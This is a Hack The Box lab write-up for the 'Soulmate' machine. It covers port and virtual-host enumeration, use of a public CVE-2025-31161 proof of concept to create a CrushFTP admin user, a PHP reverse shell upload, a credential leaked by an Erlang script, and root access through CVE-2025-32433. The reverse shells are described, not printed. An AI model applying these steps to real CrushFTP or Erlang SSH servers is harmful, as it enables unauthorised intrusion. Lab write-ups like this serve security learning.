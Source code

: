 ```yaml
---
slug: /write-up/htb/machines/easy/sau
pagination_next: null
pagination_prev: null
draft: true
---
```

# Soulmate

## Enumeration

```bash
└─$ nmap 10.10.11.86              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-10 18:24 CEST
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 32.55% done; ETC: 18:25 (0:00:29 remaining)
Nmap scan report for 10.10.11.86
Host is up (0.45s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.46 seconds
```

It has a webserver on port 80, let's enumerate it more:

```bash
└─$ whatweb http://soulmate.htb 
http://soulmate.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[hello@soulmate.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.86], Script, Title[Soulmate - Find Your Perfect Match], nginx[1.18.0]
```

Normal web fuzzing does not reveal anything interesting, just what it can be reached navigating through the website.

The inputs does not seem to be vulnerable to SQL injections.

With virtual host fuzzing, the virtual host `ftp.soulmate.htb` is revealed. Which shows a `CrushFTP web interface`. More info can be found [in this article](https://www.crushftp.com/crush10wiki/Wiki.jsp?page=User%20Manager).

We can determine the actual version running of CrushFTP with: `http://ftp.soulmate.htb/WebInterface/new-ui/version.js` which display:

```js
export default {
  version: "11.W.657-2025_03_08_07_52",
};
```

## Foothold

This means the server version was upgraded in March 2025. Searching for vulnerabilities, there two good possible candidates:

- CVE-2025-54309
- CVE-2025-31161

The second one allowed me to create an admin user using this [poc](https://github.com/Immersive-Labs-Sec/CVE-2025-31161):

```bash
└─$ python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user mate --password 1234
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: mate
   [*] Password: 1234.
```

Once we have the user created, we can mount the vfs entering the `User management` console and set the upload permissions. In `/app/webProd` the website we explored before is stored. We can determine that by uploading a simple script with `phpinfo` to see if we manage to execute it.

Once determine that this folder is the web we're seeing, we can upload a PHP reverse shell and we'll have a shell with `www-data` user.

Now, we need to do lateral movement.

## Lateral movement

Checking what is running with `ps` we see an Erlang script that leaks `ben` credentials:

```bash
root        1037  0.0  1.6 2252024 66816 ?       Ssl  14:25   0:01 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
```

```text
        {user_passwords, [{"ben", "HouseXXX"}]},
```

## Privilege escalation

Theoretically, the vulnerability in CrushFTP should lead to RCE according to [this article](https://orionx.foregenix.com/blog/cve-2025-54309-rce-crushftp). Since CrushFTP is running with root, one can develop a plugin that executes system commands and deploy it in CrushFTP. However, I couldn't make it work.

For privilege escalation, we know there's an Erlang SSH thing going on in 2222. Searching for CVE, I have found this [CVE](https://threatprotect.qualys.com/2025/04/21/erlang-otp-ssh-server-remote-code-execution-vulnerability-cve-2025-32433/).

Searching for an exploit in github, I found an script that first confirms the vulnerability is there, and later I modified to open a reverse shell and get root access.
